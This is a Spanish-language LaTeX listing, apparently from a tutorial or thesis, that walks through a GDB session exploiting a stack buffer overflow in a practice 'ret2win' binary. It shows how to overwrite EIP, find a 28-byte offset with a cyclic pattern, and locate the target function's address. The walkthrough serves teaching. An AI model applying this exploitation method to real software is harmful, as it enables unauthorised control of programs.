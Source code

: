 \begin{lstlisting}[language=bash, caption=Explotación de GDB con binario ret2win]
# Se carga el binario en gdb
$ gdb ret2win.o
# Se establece el breakpoint en la funcion main
(gdb) b main
Breakpoint 1 at 0x8049209
# Se establece el breakpoint en la funcion "funcion_vulnerable"
(gdb) b funcion_vulnerable
Breakpoint 2 at 0x80491c5
# Se establece el breakpoint en la funcion "ret2win"
(gdb) b ret2win
Breakpoint 3 at 0x80491ac
# Procedemos a ejecutar el programa y se alcanza la funcion main
(gdb) start
Breakpoint 1, 0x08049209 in main ()
# Podemos ver los stack frames usando backtrace
(gdb) backtrace
0  0x08049209 in main ()
# Continuamos hasta funcion_vulnerable
(gdb) continue
Breakpoint 2, 0x080491c5 in funcion_vulnerable ()
# Se revisan los stack frames para observar que se ha cambiado a uno nuevo
(gdb) backtrace
0  0x080491c5 in funcion_vulnerable ()
1  0x08049221 in main ()
# Se continua instruccion por instruccion hasta que se pida un input usando next
(gdb) next instruction
.
.
.
(gdb) next instruction
Dime algo: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
# Se introduce un texto largo (por encima de las dimensiones del buffer), 48 As por ejemplo
0x080491e1 in funcion_vulnerable ()
(gdb) backtrace
0  0x080491e1 in funcion_vulnerable ()
1  0x41414141 in ?? ()
2  0x41414141 in ?? ()
3  0x41414141 in ?? ()
4  0x41414141 in ?? ()
5  0x41414141 in ?? ()
6  0x00000000 in ?? ()
# Como se puede observar, se ha sustituido el EIP cambiando el punto de retorno de la funcion.
# Para obtener el exacto con precision, se puede hacer uso de herramientas automaticas, existe una online en la siguiente URL: https://wiremask.eu/tools/buffer-overflow-pattern-generator/
# Se genera un string de 48 bytes de longitud usando la herramienta (Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5)
# Se reinicia el programa usando run y aceptando
(gdb) run
# Se repiten los pasos anteriores, sin embargo, se cambian las As introducidas por el texto generado en la herramienta
(gdb) next instruction
Dime algo: Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5
# Revisamos el backtrace para ver el EIP
(gdb) backtrace
0  0x080491e1 in funcion_vulnerable ()
1  0x62413961 in ?? ()
2  0x31624130 in ?? ()
3  0x41326241 in ?? ()
4  0x62413362 in ?? ()
5  0x35624134 in ?? ()
6  0x00000000 in ?? ()
# Se toma la funcion de retorno del punto 1 (0x62413961) y se introduce en la herramienta usada, obteniendo un offset de 28 bytes
# Como conclusion, se debe entregar al programa 28 caracteres seguido de la funcion donde se quiera que retorne (ret2win)
# Para ello se usa info address ret2win  y devuelve 0x80491a6

\end{lstlisting}
